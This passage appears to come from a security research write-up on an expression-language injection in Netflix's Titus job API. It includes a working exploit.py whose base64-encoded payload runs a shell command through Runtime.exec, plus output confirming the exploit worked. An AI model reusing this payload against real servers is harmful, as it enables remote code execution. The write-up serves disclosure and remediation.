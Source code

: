 Output:
```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [foo]', type: 'HARD''}, {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [java.lang.UNIXProcess]', type: 'HARD''}, {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [foo]', type: 'HARD''}"}
```
To verify the exploit worked, a the `/tmp/pwned` file should have been created in the docker-container - and sure enough, the exploit works:
```
$ docker exec -it tituscontrolplane_gateway_1 /bin/bash
root@51707df922fc:/opt/titus-server-gateway# ls -al /tmp
total 20
drwxrwxrwt 1 root root 4096 Jun  8 18:33 .
drwxr-xr-x 1 root root 4096 Jun  1 18:38 ..
drwxr-xr-x 1 root root 4096 Jun  8 14:01 hsperfdata_root
-rw-r--r-- 1 root root   85 Jun  8 19:16 pwned
```


Exploit: [exploit.py](exploit.py)
```
import requests
from string import Template
payload = """{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"${injection}":"True"}},
      "hardConstraints": {"constraints": {"${injection}": "False"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }
"""
t = Template(payload)

headers = {'Content-type': 'application/json'}

data = t.substitute(injection="#{#this.class.name.substring(0,5) == 'com.g' ? 'FOO' : T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode('dG91Y2ggL3RtcC9wd25lZA=='))).class.name}")

r = requests.post(url="http://localhost:7001/api/v3/jobs", headers=headers, data=data)

print r.text
```
### Step 4.2 Remediation
The query gives no results on a patched database (that is mainly because the fix added an abstract class and sanitizer functions through which the query does not propagate data-flow):